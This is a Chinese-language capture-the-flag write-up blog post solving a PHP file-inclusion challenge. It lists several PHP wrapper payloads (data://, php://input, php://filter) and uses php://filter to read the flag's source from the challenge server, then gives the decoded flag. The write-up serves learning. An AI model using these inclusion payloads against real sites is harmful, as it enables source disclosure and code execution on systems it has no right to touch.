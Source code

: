 ```yaml
---
layout:   post
title:    BasicFileInclude
subtitle:   Hello world,hello blog!
date:     2019-04-15
author:   吴柚
header-img: post-bg-desk.jpg
catalog:    true
tags:
    - 学习
---
```


## 题目分析

![](https://i.loli.net/2019/04/15/5cb49cc4432f6.png)

从题目名称来看，，这是一个文件包含类型的题目。google以后得知这种题目属于PHP类型。

![](https://i.loli.net/2019/04/15/5cb49cc4f1ae2.png)

打开题目所给网页，这句话的意思是文件就在这，但你看不见。然后看见url栏，看到`page=flag`，应该就代表文件被隐藏在网页源代码中了吧。

然而查看网页源代码，没有什么特别的发现，故google后得知这种题目有以下几种构造payload的做法：

```
1.?file=data:text/plain,<?php phpinfo()?>

2.?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=

3.?file=php://input [POST DATA:]<?php phpinfo()?>

4.?file=php://filter/read=convert.base64-encode/resource=xxx.php
```

## 解题过程

依次使用上述四种不同的PHP伪协议构造payload，来尝试解题。

当payload为:

```
http://123.207.149.64:23338/?page=php://filter/read=convert.base64-encode/resource=flag
```

得到一串base64加密的字符串

![](https://i.loli.net/2019/04/15/5cb49cc5b7d55.png)

字符串为：`aGEgaGE/IHlvdSB3YW50IGZsYWc/IGZsYWcgaXMgaGVyZTw/cGhwDQovLyB0cnkgdG8gcmVhZCB0aGlzIHNvdXJjZSBjb2RlDQovLyRmbGFnID0gJ2ZsYWd7cmVhbGx5X2Jhc2ljX3NraWxsX3dlYl9kb2dfc2hvdWxkX2tub3d9JzsNCj8+LCBidXQgZG9uJ3QgbGV0IHlvdSBzZWUhDQo=`

在线解出该字符串含义，得到flag为`flag{really_basic_skill_web_dog_should_know}`

![](https://i.loli.net/2019/04/15/5cb49cc647de8.png)
